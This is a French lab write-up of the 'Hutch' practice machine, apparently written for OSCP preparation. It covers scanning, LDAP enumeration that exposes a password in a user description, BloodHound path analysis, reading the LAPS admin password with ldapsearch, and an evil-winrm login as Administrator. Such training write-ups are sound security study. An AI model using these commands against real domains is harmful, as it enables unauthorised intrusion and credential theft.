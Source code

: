   # Hutch

	sudo masscan -p1-65535,U:1-65535 192.168.240.122 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.240.122 -oN nmap.txt
	feroxbuster --silent -u http://192.168.240.122
	
Scans classiques.

	PORT STATE SERVICE VERSION  
	53/tcp open domain Simple DNS Plus  
	80/tcp open http Microsoft IIS httpd 10.0  
	88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2023-07-09 07:15:40Z)  
	135/tcp open msrpc Microsoft Windows RPC  
	139/tcp open netbios-ssn Microsoft Windows netbios-ssn  
	389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-S  
	ite-Name)  
	445/tcp open microsoft-ds?  
	593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0  
	636/tcp open tcpwrapped  
	3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-S  
	ite-Name)  
	3269/tcp open tcpwrapped  
	5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
	9389/tcp open mc-nmf .NET Message Framing  
	49666/tcp open msrpc Microsoft Windows RPC  
	49667/tcp open msrpc Microsoft Windows RPC  
	49671/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0  
	49672/tcp open msrpc Microsoft Windows RPC  
	49674/tcp open msrpc Microsoft Windows RPC  
	49687/tcp open msrpc Microsoft Windows RPC  
	49758/tcp open msrpc Microsoft Windows RPC 

Rien d'exploitable sur les ports habituels.

	nmap -n -sV --script "ldap*" 192.168.240.122

Scan complémentaire sur LDAP.

On obtient énormément d'informations mais les plus importantes sont le domaine et le CN : 

	ldapsearch -x -b "dc=hutch,dc=offsec" -H ldap://192.168.240.122 | grep sAMAccountName
	ldapsearch -x -b "dc=hutch,dc=offsec" -H ldap://192.168.240.122 | grep description

On récupère un tas de noms d'utilisateurs ainsi qu'un mot de passe dans l'une des descriptions. J'ai utilisé un "grep" astucieux pour éviter de passer par CrackMapExec, mais si ce scénario tombe pendant l'OSCP il faudra utiliser CrackMapExec pour être certain de ne louper aucun compte pour du pivoting éventuel : 

	ldapsearch -x -b "dc=hutch,dc=offsec" -H ldap://192.168.240.122 | grep CrabSharkJellyfish192 -A 5 -B 5

On voit que c'est Freddy McSorley qui a ce mot de passe. On peut se connecter au SMB mais il n'y a rien d'intéressant.

	smbclient -L //192.168.240.122/ -U HUTCH/fmcsorley

En revanche, j'ai trouvé une version de Bloodhound en Python et exécutable à distance : 

	git clone https://github.com/fox-it/BloodHound.py
	python  ~/Downloads/BloodHound.py/bloodhound.py -d HUTCH.OFFSEC -u fmcsorley -p CrabSharkJellyfish192 -c All -ns 192.168.240.122
	...
	sudo neo4j start
	bloodhound

J'ai lancé une analyse "Find Shortest Paths to Domain Admins" et le graphe a donné un résultat intéressant ; Freddy McSorley a un droit de type "readLAPSPassword" sur la machine. Il y a des outils pour exploiter cela mais on peut aussi le faire de manière native avec ldapsearch. Voir https://malicious.link/post/2017/dump-laps-passwords-with-ldapsearch/

	ldapsearch -x -b "dc=HUTCH,dc=OFFSEC" -H ldap://192.168.240.122 -D "fmcsorley@HUTCH.OFFSEC" -w CrabSharkJellyfish192 "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
	
	
> ...
> </br>\# HUTCHDC, Domain Controllers, hutch.offsec  
> dn: CN=HUTCHDC,OU=Domain Controllers,DC=hutch,DC=offsec  
> ms-Mcs-AdmPwd: ]UFW]Dc,u4tOtk
> </br>...

Connexion finale : 

	evil-winrm -u Administrator -p ']UFW]Dc,u4tOtk' -i 192.168.240.122
	type C:\Users\fmcsorley\Desktop\local.txt
	type C:\Users\Administrator\Desktop\proof.txt



